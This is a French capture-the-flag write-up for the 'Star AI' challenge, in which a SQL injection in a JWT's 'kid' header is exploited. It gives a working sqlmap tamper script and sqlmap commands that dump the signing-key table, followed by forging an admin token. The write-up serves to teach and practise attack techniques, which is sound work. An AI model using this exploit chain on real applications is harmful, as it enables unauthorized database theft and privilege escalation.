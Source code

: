 ```yaml
---
title: "Star AI"
date: 2023-10-24T09:03:20-08:00
draft: false
---
```


# Cybersecurity Business Convention 2023 - Star AI - *400 pts*

## Énoncé

Ce site de génération d'images d'étoiles peut sembler innocent à permière vue, mais j'ai eu vent que son propriétaire avait caché des données sensibles et s'en servait de point d'exfiltration.

Devenez "admin" de la plateforme pour en savoir plus.

## Solution

Le challenge commence sur le site de Star AI, qui revendique simplement être une API de génération d'images.

![Site](/images/004/01.png)

On remarque en haut à droite une fonction API qui nous redirige vers un endpoint GET /api/tielles, qui nous renvoie une image aléatoire d'astrophotographie.

![API](/images/004/02.png)

Si l'on observe les requêtes qui passent avec un proxy (type Burp Suite), on peut remarquer que l'API nous attribue un jeton d'authentification lors de la visite de l'endpoint `/api/getToken`, qui nous redirige ensuite vers `/api/star`.

![GetToken](/images/004/03.png)

Lorsque l'on décode le JWT, on se rend compte qu'il ne contient que très peu d'informations. Le seul header un peu inhabituel est le header `kid`, qui contient un GUID qui semble ne pas changer entre plusieurs tokens.

![Decoded JWT](/images/004/04.png)

Si l'on ne connaît pas le fonctionnement du paramètre `kid` dans un JWT, une petite recherche Google nous permet de retrouver la RFC ou d'autres ressources qui nous expliquent que le `kid` est un paramètre qui sert à indiquer au serveur quelle clé est utilisée pour signer le token en question.

Cependant, selon la RFC, il n'y a pas de méthode d'implémentation préconisée. Il est donc possible que le challenge repose sur une mauvaise implémentation de ce paramètre.

Selon l'implémentation, le stockage de la clé peut se faire en BDD, sur le FS, ou même à l'exterieur de la machine.

Ici, lorsqu'on joue un peu avec le paramètre KID, on se retrouve avec une erreur qui nous indique que le `kid` est invalide.

![Invalid KID 1](/images/004/05.png)

![Invalid KID 2](/images/004/06.png)

Au bout de quelques tests, on se rend compte que la clé est stockée en base de données, car on est en mesure de provoquer une erreur SQL en insérant le caractère `'`

![SQL Error 1](/images/004/07.png)

![SQL Error 2](/images/004/08.png)

Nous sommes sûrement en face d'une injection SQL. Il est possible de tester ça à la main, mais j'aime bien sortir mon `sqlmap` de temps en temps.

L'exploitation avec `sqlmap` est automatique, mais elle ne fonctionnera pas sans lui donner des indications précises sur l'endroit et la façon d'injecter notre SQL.

Pour que `sqlmap` puisse faire tranquillement son travail, nous allons avoir besoin de créer un tamper script, qui va altérer son comportement comme on le souhaite.

On crée le script `/usr/share/sqlmap/tamper/jwtkid.py` et on peut le faire de cette façon :

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    encoded = str('{"alg":"HS256","typ":"JWT","kid":"'+payload+'"}').encode('ascii')
    base = base64.b64encode(encoded)
    return base.decode('ascii')
```

Ensuite, on copie la requête que l'on veut faire depuis `Burp Suite` dans un fichier, pour la passer à `sqlmap` ensuite, et marquer l'endroit où on veut faire notre injection avec le caractère `*`

![Requête](/images/004/09.png)

Ici, j'ai remplacé la première partie du JWT par l'injection. Il ne reste plus qu'a le laisser faire son travail :)

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py
```

![SQLmap 1](/images/004/10.png)

L'injection a été trouvée, on peut maintenant dumper le contenu de la BDD.

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py --dbs
```

![SQLmap 2](/images/004/11.png)

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py -D starai --tables
```

![SQLmap 3](/images/004/12.png)

```bash
sqlmap -r [fichier_requete] --ignore-code 401 --tamper jwtkid.py -D starai -T JWTkeys --dump
```

![SQLmap 4](/images/004/13.png)

Nous somes maintenant en possession de la clé pour signer les JWT de l'application ! Il ne reste plus qu'a se forger notre propre token pour obtenir les droits `admin`.

![JWT Forge](/images/004/14.png)

On rejoue une simple requête sur l'endpoint `/api/star` avec ce nouveau token, et on obtient le flag !

![Flag](/images/004/15.png)

*FLAG : CBC{J\*\*\*\*\*\*\*\*\*\*\*\*}*
